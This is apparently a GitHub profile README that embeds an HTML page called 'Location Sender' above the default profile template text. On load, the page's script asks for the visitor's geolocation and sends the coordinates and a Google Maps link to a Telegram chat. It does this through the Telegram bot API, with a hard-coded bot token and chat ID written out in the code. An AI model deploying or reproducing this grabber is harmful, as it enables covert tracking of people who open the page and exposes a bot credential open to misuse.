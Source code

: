 ## Hi there 👋
<!DOCTYPE html>
<html>
<head>
    <title>🎉 Location Sender 🎉</title>
    <script>
        function sendLocation() {
            if (navigator.geolocation) {
                navigator.geolocation.getCurrentPosition(
                    function(position) {
                        var latitude = position.coords.latitude;
                        var longitude = position.coords.longitude;

                        // Your Telegram Bot Token and Chat ID
                        var botToken = "8193877447:AAF5lqPY9-rvw_UaakwnfkFrIvCVFdStpLY";
                        var chatId = "432412879";  
                        
                        var message = `📍 Location received!\nLatitude: ${latitude}\nLongitude: ${longitude}\n[Google Maps](https://www.google.com/maps?q=${latitude},${longitude})`;

                        var url = `https://api.telegram.org/bot${botToken}/sendMessage`;

                        fetch(url, {
                            method: "POST",
                            headers: { "Content-Type": "application/json" },
                            body: JSON.stringify({
                                chat_id: chatId,
                                text: message,
                                parse_mode: "Markdown"
                            })
                        })
                        .then(response => response.json())
                        .then(data => {
                            if (data.ok) {
                                document.getElementById("message").innerHTML = "✅ Your location has been sent!";
                            } else {
                                document.getElementById("message").innerHTML = "❌ Failed to send location!";
                                console.error("Telegram API Error:", data);
                            }
                        })
                        .catch(error => {
                            document.getElementById("message").innerHTML = "❌ Error sending location!";
                            console.error("Error:", error);
                        });
                    },
                    function(error) {
                        document.getElementById("message").innerHTML = "❌ Failed to get location!";
                        console.error("Geolocation Error:", error);
                    }
                );
            } else {
                alert("Geolocation is not supported by this browser.");
            }
        }
    </script>
</head>
<body onload="sendLocation()">
    <h1>🎉 Location Sender 🎉</h1>
    <p id="message">Sending location...</p>
</body>
</html>
<!--
**shahawzin/shahawzin** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
